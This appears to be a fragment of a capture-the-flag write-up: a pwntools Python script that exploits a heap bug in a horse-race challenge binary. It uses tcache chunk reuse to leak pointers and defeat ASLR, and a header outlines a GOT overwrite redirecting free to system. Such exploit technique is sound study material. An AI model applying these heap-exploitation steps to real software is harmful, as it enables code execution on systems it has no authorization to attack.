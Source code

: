 ```Call Free -> Free@plt -> Modified GOT Entry -> System@plt -> System GOT Entry -> System@libc```
elf = pwn.ELF("./vuln")
libcFile = pwn.ELF("./libc.so.6")
p = elf.process()

def addHorse(stableIndex, nameLength, name):
	p.sendlineafter("Choice: ", b"1")
	p.sendlineafter("Stable index # (0-17)? ", bytes(str(stableIndex), encoding="ascii"))
	p.sendlineafter("Horse name length (16-256)? ", bytes(str(nameLength), encoding="ascii"))
	p.sendlineafter(f"Enter a string of {nameLength} characters: ", name)

def removeHorse(stableIndex):
	p.sendlineafter("Choice: ", b"2")
	p.sendlineafter("Stable index # (0-17)? ", bytes(str(stableIndex), encoding="ascii"))

def cheat(stableIndex, name):
	p.sendlineafter("Choice: ", b"0")
	p.sendlineafter("Stable index # (0-17)? ", bytes(str(stableIndex),  encoding="ascii"))
	p.sendlineafter("Enter a string of 16 characters: ", name)
	p.sendlineafter("New spot? ", b"0")

def getPointers():
	p.sendlineafter("Choice: ", b"3")
	data = b""
	x = p.recvline()
	data += x
	while (not (b"WINNER" in x)):
		x = p.recvline()
		data += x
		if (b"\n\n" in data):
			print("done recieving data!")
			break
	somePointers = data.split(b"|")
	leakedPointers = []
	
	print(data)
	for pointer in somePointers:
		pointer = pointer.strip(b" \n")
		pointer = pointer.ljust(8, b"\x00")
		pointer = pwn.u64(pointer)
		if (pointer != 0):
			leakedPointers.append(pointer)
			print(hex(pointer))
	print(f"The value you seek is {hex(min(leakedPointers))}")
	return min(leakedPointers)

#malloc some chunks of same size
for i in range(5):
	print(f"adding horse {i}")
	addHorse(i, 256, b"\xff")

#free these chunks and put them in tcache
for i in range(4, -1, -1):
	print(f"removing horse {i}")
	removeHorse(i)

#these chunks are returned to us with metadata in them
for i in range(5):
	print(f"adding horse {i}")
	addHorse(i, 256, b"\xff")

#we start racing and grab the leaked data
ASLR = getPointers()

```